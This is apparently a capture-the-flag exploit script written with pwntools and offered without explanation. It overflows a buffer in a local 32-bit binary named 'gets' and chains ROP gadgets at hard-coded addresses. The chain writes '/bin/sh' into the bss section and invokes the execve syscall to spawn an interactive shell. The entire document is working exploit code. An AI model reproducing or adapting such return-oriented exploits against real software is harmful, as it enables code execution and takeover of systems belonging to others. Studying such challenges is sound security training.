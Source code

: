 from pwn import *


pop_eax = 0x080b81c6
pop_ebx = 0x080481c9
pop_ecx = 0x080de955
pop_edx = 0x0806f02a
mv_dword_edx_eax = 0x080549db
sys_call = 0x0806cc25

buf = 0x80eaf80 # bss

payload  = 'a'*0x18 + 'a'*0x4 + p32(pop_edx) + p32(buf) + p32(pop_eax) + '/bin' + p32(mv_dword_edx_eax)
payload += p32(pop_eax) + '/sh\x00' + p32(pop_edx) + p32(buf+0x4) + p32(mv_dword_edx_eax)
payload += p32(pop_eax) + p32(0xb) + p32(pop_ebx) + p32(buf) + p32(pop_ecx) + p32(0) + p32(pop_edx) + p32(0)
payload += p32(sys_call)


r = process('./gets')
r.recvuntil('!\n')
r.sendline(payload)

r.interactive()		
